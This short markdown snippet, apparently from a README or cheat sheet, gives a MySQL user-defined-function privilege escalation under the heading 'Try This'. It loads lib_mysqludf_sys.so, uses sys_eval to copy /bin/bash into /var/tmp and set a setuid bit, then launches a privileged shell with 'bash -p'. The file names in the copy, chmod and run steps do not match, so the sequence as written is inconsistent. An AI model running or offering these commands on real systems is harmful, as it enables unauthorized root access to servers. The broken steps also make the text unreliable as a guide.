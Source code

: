 - - -

## Try This  : 

```mysql
mysql> show databases;
mysql> use <table>;
mysql> CREATE FUNCTION sys_eval RETURNS INT SONAME 'lib_mysqludf_sys.so';
mysql> \! clear
mysql> select sys_eval("cp /bin/bash /var/tmp/evil-bash ; chmod u+x /var/tmp/bash");
mysql> exit
```

```sh
cd /var/tmp ; ./bash  -p 
```

- - -
